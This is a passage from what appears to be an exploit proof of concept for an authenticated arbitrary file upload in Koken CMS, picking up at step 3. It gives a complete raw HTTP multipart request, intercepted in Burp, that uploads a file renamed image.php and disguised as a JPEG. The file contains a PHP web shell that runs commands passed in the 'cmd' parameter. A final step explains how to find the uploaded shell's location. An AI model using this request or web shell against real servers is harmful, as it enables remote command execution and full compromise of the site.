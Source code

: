 ```bash
3. Authenticated, go to Koken CMS Dashboard, upload your file on "Import Content" button (Library panel) and send the HTTP request to Burp.

4. On Burp, rename your file to "image.php"


POST /koken/api.php?/content HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://target.com/koken/admin/
x-koken-auth: cookie
Content-Type: multipart/form-data; boundary=---------------------------2391361183188899229525551
Content-Length: 1043
Connection: close
Cookie: PHPSESSID= [Cookie value here]

-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="name"

image.php
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="chunk"

0
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="chunks"

1
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="upload_session_start"

1594831856
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="visibility"

public
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="license"

all
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="max_download"

none
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="file"; filename="image.php"
Content-Type: image/jpeg

<?php system($_GET['cmd']);?>

-----------------------------2391361183188899229525551--



5. On Koken CMS Library, select you file and put the mouse on "Download File" to see where your file is hosted on server.
```
